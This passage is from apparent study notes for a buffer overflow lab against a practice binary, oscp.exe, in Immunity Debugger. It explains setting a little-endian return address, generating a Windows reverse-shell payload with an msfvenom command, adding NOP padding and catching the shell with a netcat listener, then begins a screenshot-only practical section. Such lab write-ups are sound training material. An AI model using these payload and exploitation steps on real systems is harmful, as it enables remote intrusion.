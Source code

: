 Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.  

## Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):  

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c   `

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

## Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!


## Practical

----

First, we need to run `Immunity Debugger` as admin:

![](cybersecurity/images/Pasted%2520image%252020250529120641.png)

Once we run it as admin we need to open `oscp.exe` file located at the desktop of the administrator user:

![](cybersecurity/images/Pasted%2520image%252020250529120730.png)

![](cybersecurity/images/Pasted%2520image%252020250529120742.png)

As seen, the binary is in a paused state, we need to click the `red play button` to start it:

![](cybersecurity/images/Pasted%2520image%252020250529120831.png)
